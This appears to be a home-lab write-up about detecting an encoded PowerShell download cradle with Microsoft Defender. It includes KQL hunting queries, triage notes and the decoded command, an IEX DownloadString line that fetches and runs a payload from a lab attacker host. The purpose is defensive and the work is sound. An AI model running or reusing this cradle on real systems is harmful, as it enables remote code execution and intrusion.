



# Stage 2 — Execution: Encoded PowerShell Download Cradle

**MITRE ATT&CK:** [T1059.001 — PowerShell](https://attack.mitre.org/techniques/T1059/001/)
**Path:** victim-a
**Table:** `DeviceProcessEvents`

---

## What I ran

On victim-a, as `sfazl`, I ran an encoded PowerShell download cradle. Here's the command line Defender caught:

```
powershell.exe -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA3ADQALgAxADMANgAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAnACkA
```


*The encoded PowerShell command in DeviceProcessEvents, started by powershell.exe as sfazl.*

## Decoding it

The base64 decodes to a download-and-run cradle. I decoded it **only to read it**. I never run decoded attacker commands:

```powershell
[System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String("PASTE_BASE64"))
```

Result:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.74.136/payload.ps1')
```


*The decode shows the IEX DownloadString cradle pointing at Kali.*

On Kali, the Python `http.server` logged the request:

```
192.168.74.130 - - "GET /payload.ps1 HTTP/1.1" 200
```

## What Defender recorded

```kusto
DeviceProcessEvents
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_any ("-E ", "-EncodedCommand", "-enc")
| where InitiatingProcessAccountName !~ "system"
| project Timestamp, AccountName, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

I ran the encoded command a few times during testing. Each run was captured with its full command line:


*Several encoded PowerShell runs in DeviceProcessEvents, all the same cradle, all as sfazl.*

## What Defender did

The binary, `powershell.exe`, is the real signed Microsoft file (VirusTotal 0/70). So this isn't malware — it's a trusted tool being abused. That's called LOLBin abuse. Default Defender raised **no incident** for the encoded command. The decoded payload looked like normal web traffic, and on its own it stayed under the threshold.

This is what my first custom rule (Encoded PowerShell Execution) was built to catch. See [detections/custom-detection-rules.md](../detections/custom-detection-rules.md#rule-1--encoded-powershell-execution).

## Tier 1 triage

- **Binary:** signed Microsoft `powershell.exe`, VT 0/70. Not malware — but how it's used is the problem.
- **Command line:** `-EncodedCommand` with a base64 blob is a clear sign of hiding something. Decoding shows an `IEX ... DownloadString` cradle reaching an internal host on port 80.
- **The line I'd use:** "The file is clean, the behavior is not." Encoding, plus a remote download, plus running it in memory with `IEX`, is a textbook execution step.
- **Verdict:** True Positive.

## Detection takeaway

Encoded PowerShell is cheap to catch from `DeviceProcessEvents`. Match `powershell.exe` with the `-EncodedCommand` / `-enc` / `-e` flags, and skip the system account to cut noise. Decoding it to read it is the analyst skill that turns a flagged command into a confirmed cradle.
